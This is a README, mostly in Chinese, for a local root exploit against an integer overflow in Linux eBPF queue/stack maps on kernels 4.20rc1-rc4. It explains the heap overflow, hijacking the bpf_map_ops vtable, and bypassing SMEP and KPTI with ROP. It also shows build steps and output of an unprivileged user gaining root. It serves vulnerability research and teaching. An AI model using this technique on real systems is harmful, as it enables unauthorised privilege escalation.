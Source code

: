 # Linux_LPE_eBPF_4.20rc1-4
LPE exploit for 4.20rc1-rc4.  
For educational/research purposes only. Use at your own risk.  
## Analysis
syscall: int bpf(int cmd, union bpf_attr *attr, unsigned int size);
### kernel compilation
	开启下列参数：
		1. CONFIG_BPF
		2. CONFIG_BPF_SYSCALL
		3. CONFIG_DEBUG_INFO
### exploit
#### triggered vul path  
a. 漏洞触发路径：bpf -> map_create -> find_and_alloc_map -> queue_stack_map_alloc。  
#### triggered vul condition
b. 达到漏洞函数的条件。  
```
	1. 设置 attr->map_type 为 22。
	2. 通过 map_alloc_check 的检查。
	3. attr->map_ifindex 为空。
```
#### vul loc
c. 漏洞函数 queue_stack_map_alloc 的漏洞：整数溢出 -> 分配堆空间。  
size变量存在整数溢出。这个size在正常情况下应该是：struct bpf_queue_stac 的大小加上 value_size * size 相当于是map中每一项的大小（value_size）乘项数+1（attr->max_entries + 1）。  
另外，elements后面是数据区域。
```
struct bpf_queue_stack {
    struct bpf_map map;
    raw_spinlock_t lock;
    u32 head, tail;
    u32 size; /* max_entries + 1 */
 
    char elements[0] __aligned(8);
};

/* map is generic key/value storage optionally accessible by eBPF programs */
struct bpf_map_ops {
	/* funcs callable from userspace (via syscall) */
	int (*map_alloc_check)(union bpf_attr *attr);
	struct bpf_map *(*map_alloc)(union bpf_attr *attr);
	void (*map_release)(struct bpf_map *map, struct file *map_file);
	...
}；
struct bpf_map {
    /* The first two cachelines with read-mostly members of which some
     * are also accessed in fast-path (e.g. ops, max_entries).
     */
    const struct bpf_map_ops *ops ____cacheline_aligned;
    struct bpf_map *inner_map_meta;
#ifdef CONFIG_SECURITY
    void *security;
#endif
    enum bpf_map_type map_type;
    u32 key_size;
    u32 value_size;
    u32 max_entries;
    u32 map_flags;
    u32 pages;
    u32 id;
    int numa_node;
    u32 btf_key_type_id;
    u32 btf_value_type_id;
    struct btf *btf;
    bool unpriv_array;
    /* 55 bytes hole */
 
    /* The 3rd and 4th cacheline with misc members to avoid false sharing
     * particularly with refcounting.
     */
    struct user_struct *user ____cacheline_aligned;
    atomic_t refcnt;
    atomic_t usercnt;
    struct work_struct work;
    char name[BPF_OBJ_NAME_LEN];
};

void *bpf_map_area_alloc(size_t size, int numa_node)
{
    ......
  area = kmalloc_node(size, GFP_USER | flags, numa_node);
        if (area != NULL)
            return area;
    ......
}

bpf_map* queue_stack_map_alloc{
......
  struct bpf_queue_stack *qs;   
  u32 size, value_size;
  u64 queue_size, cost;
 
  // bugs-> integer overflow. -> 0
  size = attr->max_entries + 1;
  value_size = attr->value_size;
 
  queue_size = sizeof(*qs) + (u64) value_size * size;
  ......
  qs = bpf_map_area_alloc(queue_size, numa_node); // numa_node存储着attr
  ......
  // 用 bpf_attr 初始化 bpf_map。
  bpf_map_init_from_attr(&qs->map, attr);
  ......
  qs->size = size;
  return &qs->map;
}
```
最后从 find_and_alloc_map(attr) 中返回我们的map（struct bpf_map *）。  
---->  
由于整数溢出，导致只分配了struct bpf_queue_stack 的空间，而没有分配map对应的空间。（个人理解这个bpf_queue_stack类似报文头部（负责管理的），而map对应的空间类似payload（elements数据）），但是map->max_entries = attr->max_entries。  
#### 堆溢出
e. 接下来，我们需要找到一块可以造成堆溢出的位置。我们将视角移出 map_create 函数。然而在BPF_MAP_UPDATE_ELEM 分支中我们对此对象进行更新等操作。  	
触发路径：bpf -> map_update_elem -> queue_stack_map_push_elem.  
```
queue_stack_map_push_elem(struct bpf_map *map, void *value,
                     u64 flags){
......
 dst = &qs->elements[qs->head * qs->map.value_size]; //qs->head代表当前是第几个entry
 memcpy(dst, value, qs->map.value_size); //堆溢出位置     
......
}
```
所以，对于0x100大小的map header+map payload, 即struct bpf_queue_stack，如果我们要拷贝的大小（value_size）大于（0x100- sizeof(bpf_map) - 0x10）的大小，就会造成堆溢出，而value_size由输入参数 attr 控制，从而能覆盖到下一个created map的bpf_map_ops虚表。  
#### vul exploitation
f. 漏洞利用
```
struct bpf_queue_stack {
    struct bpf_map map;
    raw_spinlock_t lock;
    u32 head, tail;
    u32 size; /* max_entries + 1 */
 
    char elements[0] __aligned(8);
};

struct bpf_map {
    /* The first two cachelines with read-mostly members of which some
     * are also accessed in fast-path (e.g. ops, max_entries).
     */
    const struct bpf_map_ops *ops ____cacheline_aligned;
  ......
}
```
1. 看到其第一个成员就是虚表指针 ops ，换句话说，在我们kamlloc出的slab中的第一个位置就是指向当前map虚表的指针。
2. 如果我们能通过上方的slab堆溢出，劫持下方slab的虚表指针，再fake相应的vtable，就可以实现一套内核的执行流劫持。
3. 最终的攻击点我们选择在在fake vtable上伪造fake map_release函数指针，通过close对应的map id触发fake bpf_map_release完成执行流劫持。

##### bypass smep
1. 使用了这样一条在内核中常用的栈迁移gadgets：xchg eax esp; ret;。将该gadget直接放到用户态mmap出来的fake ops table上。
2. rop劫持cr4绕过smep，然后ret2usr 提升权限。
3. 最后 swapgs; iretq 着陆用户态起shell。

但是这样是没法bypass smap的，因为ret指令涉及到向用户态取数据。

##### bypass kpti
使用kernel rop和swapgs_restore_regs_and_return_to_usermode绕过kpti。  
1. kernel rop用于提权。  
2. swapgs_restore_regs_and_return_to_usermode 安全切换到用户态。  

## Todo
### bypass smap
使用ret2dir绕过smap保护机制。
	1. 未找到类似`xchg rsp, reg`的指令，所以不能将内核栈迁移到`PHYSMAP`区域。
	2. 采用shellcode的方式，真正执行的时候发现`PHYSMAP`区域不可执行。
等过一阵子，有时间再探索吧。。
### bypass kaslr

## Usage
Build for 4.20rc1-rc4.  
```
$ make
```
To run:  
由于当前版本没绕过kaslr，需要手动修改exp的gadget地址以匹配你的内核。
```
# id
uid=1000(tmp) gid=1000(tmp) groups=1000(tmp)
$ /exp                                                                                          
[+] sizeof(union bpf_attr): 0x48
[+] sizeof(struct bpf_map): 0xc0          
[+] sizeof(struct bpf_queue_stack): 0x100
[+] bpf targetFd: 3
[+] map fd: 4
[+] set fake bpf_map_ops table.
[+] set kernel rop.
[+] fake_rsp: 8100e7f8
[+] start closing map fd
[*] welcome to root :-)
$ id
uid=0(root) gid=0(root)
```
Note: Just a toy. Improve the mitigation please. 
